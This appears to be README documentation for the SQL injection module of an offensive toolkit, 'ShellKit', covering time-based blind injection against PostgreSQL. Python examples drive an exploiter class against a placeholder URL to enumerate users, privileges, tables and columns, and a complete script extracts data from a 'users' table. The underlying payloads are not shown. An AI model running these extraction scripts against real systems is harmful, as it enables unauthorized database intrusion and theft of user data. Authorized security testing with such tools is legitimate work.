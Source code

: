 # SQL Injection Module Documentation

## Overview

The SQL Injection module in ShellKit provides a robust framework for testing and exploiting SQL injection vulnerabilities in PostgreSQL databases. It specifically focuses on time-based blind SQL injection techniques, which are particularly useful when direct output is not available.

## Features

- Database enumeration
- Table and column discovery
- Data extraction
- User privilege enumeration
- Database user identification
- Blind SQL injection techniques

## Technical Details

### Supported Database Types
- PostgreSQL (current version)
- Future support planned for MySQL, MSSQL

### Detection Methods
- Time-based blind injection
- Boolean-based blind injection (planned)
- Error-based injection (planned)

## Usage

### Basic Usage

```python
from shellkit.sql_injection import PostgresExploiter

# Initialize the exploiter
exploiter = PostgresExploiter(sleep_time=3)

# Target URL with injectable parameter
url = "http://vulnerable.com/page.php?id=1"

# Extract database information
dbs = exploiter.extract_dbs(url)
print(f"Found databases: {dbs}")
```

### Extract Database User

```python
# Get current database user and privileges
user_info = exploiter.extract_current_user(url)
print(f"Current user: {user_info['username']}")
print(f"User privileges: {user_info['privileges']}")

# Check if current user is superuser
is_super = exploiter.is_superuser(url)
print(f"Is superuser: {is_super}")
```

### Extract Table Information

```python
# Get tables and their columns
tables_info = exploiter.extract_table_info(url)
for table_info in tables_info:
    for table_name, columns in table_info.items():
        print(f"\nTable: {table_name}")
        print(f"Columns: {columns}")
```

### Extract Table Data

```python
# Extract specific data from a table
data = exploiter.extract_data(
    url=url,
    table_name="users",
    column_name="username",
    limit=5
)
print(f"Extracted data: {data}")
```

## Advanced Features

### Custom Sleep Times
You can adjust the sleep time used in time-based injection:

```python
exploiter = PostgresExploiter(sleep_time=5)  # Longer delay for unstable connections
```

### Handling Different Character Sets
The module automatically handles various character sets including:
- Alphanumeric characters
- Special characters
- Database-specific characters

## Security Considerations

1. **Authorization**: Always ensure you have explicit permission to test for SQL injection vulnerabilities.
2. **Legal Compliance**: Follow local laws and regulations regarding security testing.
3. **Impact**: Time-based injection can impact database performance; use reasonable sleep times.
4. **Data Protection**: Handle any extracted sensitive data according to relevant data protection laws.

## Error Handling

The module includes robust error handling for common scenarios:
- Network timeouts
- Invalid responses
- Database errors
- Connection issues

## Examples

### Complete Enumeration Example

```python
from shellkit.sql_injection import PostgresExploiter

def enumerate_database(url):
    exploiter = PostgresExploiter()
    
    # Get database user
    user_info = exploiter.extract_current_user(url)
    print(f"Database User: {user_info['username']}")
    print(f"Privileges: {user_info['privileges']}")
    
    # Get databases
    databases = exploiter.extract_dbs(url)
    print(f"Databases: {databases}")
    
    # Get tables and columns
    for db in databases:
        tables = exploiter.extract_table_info(url, db)
        print(f"\nDatabase: {db}")
        for table_info in tables:
            for table, columns in table_info.items():
                print(f"  Table: {table}")
                print(f"  Columns: {columns}")
                
                # Get sample data
                for column in columns:
                    data = exploiter.extract_data(url, table, column, limit=2)
                    print(f"    {column}: {data}")

# Usage
url = "http://vulnerable.com/page.php?id=1"
enumerate_database(url)
```

## Troubleshooting

Common issues and solutions:

1. **Slow Response Times**
   - Increase sleep_time parameter
   - Check network connectivity
   - Verify database load

2. **False Positives**
   - Adjust timeout settings
   - Verify injection point
   - Check for WAF interference

3. **Incomplete Data**
   - Verify character set coverage
   - Check for data truncation
   - Ensure sufficient timeout values

## Future Enhancements

Planned features:
- Support for additional database types
- Error-based injection techniques
- Automated injection point detection
- WAF bypass techniques
- Advanced payload generation
- Parallel data extraction

## Contributing

If you'd like to contribute to this module:
1. Check the issue tracker for open issues
2. Follow the project's coding standards
3. Include tests for new features
4. Update documentation as needed
5. Submit a pull request

## Support

For issues and support:
- Open an issue in the GitHub repository
- Check existing documentation
- Review closed issues for similar problems